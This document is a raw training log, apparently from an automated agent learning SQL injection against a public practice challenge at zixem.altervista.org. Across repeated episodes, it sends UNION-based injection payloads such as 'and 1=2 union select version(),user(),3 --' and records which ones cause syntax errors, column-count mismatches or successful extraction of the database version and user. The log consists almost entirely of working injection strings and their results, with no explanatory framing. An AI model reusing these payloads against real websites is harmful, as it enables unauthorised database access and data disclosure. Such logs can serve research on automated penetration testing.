https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2144/1000000 [12:40:06<2078:59:58,  7.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2145/1000000 [12:40:07<1526:19:18,  5.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2146/1000000 [12:40:08<1141:01:09,  4.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2147/1000000 [12:40:08<862:47:58,  3.11s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2148/1000000 [12:40:09<667:06:10,  2.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2149/1000000 [12:40:10<528:05:24,  1.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2150/1000000 [12:40:11<436:17:23,  1.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2151/1000000 [12:40:11<369:49:12,  1.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of

  0%|          | 2152/1000000 [12:42:43<12866:37:16, 46.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 2153/1000000 [12:43:08<11043:17:38, 39.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2154/1000000 [12:43:08<7794:45:04, 28.12s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column


  0%|          | 2155/1000000 [12:43:30<7258:58:44, 26.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Se

  0%|          | 2156/1000000 [12:43:37<5626:30:27, 20.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2157/1000000 [12:43:37<3970:20:46, 14.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2158/1000000 [12:43:38<2843:27:09, 10.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2159/1000000 [12:43:38<2053:39:34,  7.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax

  0%|          | 2160/1000000 [12:44:05<3653:15:16, 13.18s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2161/1000000 [12:44:07<2679:44:42,  9.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2162/1000000 [12:44:07<1938:39:19,  6.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 2163/1000000 [12:44:15<2014:56:26,  7.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2164/1000000 [12:44:16<1479:22:06,  5.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2165/1000000 [12:44:17<1098:39:50,  3.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2166/1000000 [12:44:18<832:14:01,  3.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax err

  0%|          | 2167/1000000 [12:45:17<5501:24:09, 19.85s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union

  0%|          | 2168/1000000 [12:45:25<4555:09:40, 16.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2169/1000000 [12:45:26<3251:10:48, 11.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Sy

  0%|          | 2170/1000000 [12:46:16<6417:15:00, 23.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 unio

  0%|          | 2171/1000000 [12:46:22<5002:15:11, 18.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respo

  0%|          | 2172/1000000 [12:46:52<6028:35:42, 21.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2173/1000000 [12:46:53<4250:41:28, 15.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2174/1000000 [12:46:53<3045:03:15, 10.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2175/1000000 [12:46:54<2208:31:46,  7.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2176/1000000 [12:46:55<1607:16:22,  5.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2177/1000000 [12:46:56<1196:13:12,  4.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2178/1000000 [12:46:58<963:29:37,  3.48s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2179/1000000 [12:46:58<736:39:28,  2.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2180/1000000 [12:46:59<578:42:23,  2.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 un

  0%|          | 2181/1000000 [12:48:22<7345:05:42, 26.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2182/1000000 [12:48:23<5203:54:50, 18.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2183/1000000 [12:48:24<3709:01:25, 13.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2184/1000000 [12:48:25<2663:59:25,  9.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervis

  0%|          | 2185/1000000 [12:49:50<8957:31:27, 32.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--


  0%|          | 2186/1000000 [12:51:33<14812:53:03, 53.44s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. 

  0%|          | 2187/1000000 [12:53:08<18251:41:19, 65.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2188/1000000 [12:53:08<12838:47:21, 46.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2189/1000000 [12:53:09<9053:37:59, 32.66s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server res

  0%|          | 2190/1000000 [12:54:14<11734:52:08, 42.34s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2191/1000000 [12:54:15<8278:41:39, 29.87s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2192/1000000 [12:54:16<5865:40:34, 21.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2193/1000000 [12:54:17<4168:39:37, 15.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 2194/1000000 [12:55:13<7613:06:41, 27.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Se

  0%|          | 2195/1000000 [12:55:48<8240:39:16, 29.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 2196/1000000 [12:56:06<7233:46:36, 26.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https:

  0%|          | 2197/1000000 [12:56:30<7098:22:57, 25.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2198/1000000 [12:56:31<5038:23:51, 18.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2199/1000000 [12:56:32<3592:49:04, 12.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2200/1000000 [12:56:32<2576:13:36,  9.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2201/1000000 [12:56:33<1864:58:14,  6.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2202/1000000 [12:56:34<1368:39:58,  4.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
